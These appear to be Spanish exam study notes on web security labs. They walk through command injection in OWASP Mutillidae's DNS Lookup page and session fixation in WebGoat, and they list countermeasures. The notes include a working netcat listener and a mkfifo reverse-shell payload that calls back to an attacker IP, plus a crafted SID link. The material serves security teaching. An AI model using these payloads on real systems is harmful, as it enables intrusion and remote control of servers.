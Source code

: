 #### *Ejemplo práctico para Examen*

- 1. Accedemos a "Multitude II" en owasp
- 2. Dentro de este apartado iremos a OWASP 2013 -> A1 - Injection (Other) -> Command Injection -> DNS Lookup
- 3. Dentro encontraremos un input vulnerable a inyección de comandos
- 4. Verificamos la ejecución remota introduciendo `; ls -la` recibiremos por pantalla la salida del ls

#### *reverse-shell o shell remota*

Usaremos el siguiente conjunto de instrucciones 
- En la maquina atacante [ Equipo Kali ] ejecutaremos el nc en modo espera a que se conecten remotamente
    - `nc -vlp 9876`
- En el input vulnerable de inyección de código ejecutaremos la siguiente instrucción
    - `; rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | sh -i 2>&1 | nc [ ip maquina kali ] [ puerto escucha maquina kali ] > /tmp/f`
    - Para este ejemplo quedaría tal cual así:
    - `; rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | sh -i 2>&1 | nc 192.168.1.174 9876 > /tmp/f`
- Si vamos a la terminal de Kali , podremos ver como se ha realizado una conexión remota y ya estamos dentro del servidor atacado


#### Contramedidas contra inyección de comandos

- Otra vez es clave el saneado de la entrada de los clientes.
- Debemos evitar en la entrada cualquier carácter que permita concatenar comandos, así como las opciones no permitidas de los comandos permitidos.
- Una buena idea puede ser crear un usuario que solo tenga permiso para ejecutar los comandos necesarios. De esta forma nos protegemos también en caso de que vulneren el sistema.
- Evitar fallos de seguridad por diseño. No deberiamos permitir que ejecuten comandos que puedan ser peligrosos para el sistema, por ejemplo netcat sin control.

***

## 3ª parte: (3,4 p.)

### Robos de sesión por Session Fixation

Los ataques por Session Fixation consisten en:

- Si la página web mantiene la misma sesión o identificador de un usuario antes y después de la autenticación está cometiendo un fallo de seguridad.
- Un atacante puede obtener un identificador, por ejemplo conectando con el sitio web, incluso sin autenticarse.
- Usando este identificador puede tratar de modificar la petición del usuario legítimo para que este utilice el identificador que previamente generó el atacante.
- Cuando el usuario se autentique, ese identificador se ligará con la sesión del usuario.

#### *Ejemplo práctico para Examen*

- En OWASP WebGoat > START WEBGOAT
- [panel izquierda] Session Management Flaws > Session Fixation
- **[PASO 1]** somos hacker JOE hay que interceptar el mensaje de Banco a Jane (user) y mandarlo como nosotros queramos. Puede usarse un *XSS* interactuando con la página y fingiendo un *ID* de la *Session* a la que nos de la gana, tambien puede usarse un *Man In The Middle*.
<br><br>Para hacer el ataque modificamos el correo interceptado, añadiendo el *SID* que queramos y así saber cuál es.
<br><br>Modificamos el mail que va a mandarse, modificando el a `href=/WebGoat/attack?Screen=56&menu=1800` - Muy importante WebGoat (G mayuscula)
<br><br>Debemos convertilo a `href=/WebGoat/attack?Screen=56&menu=1800&SID=hola` - Agregarle el &SID=hola
<br><br>Pulsamos en SEDN MAIL'
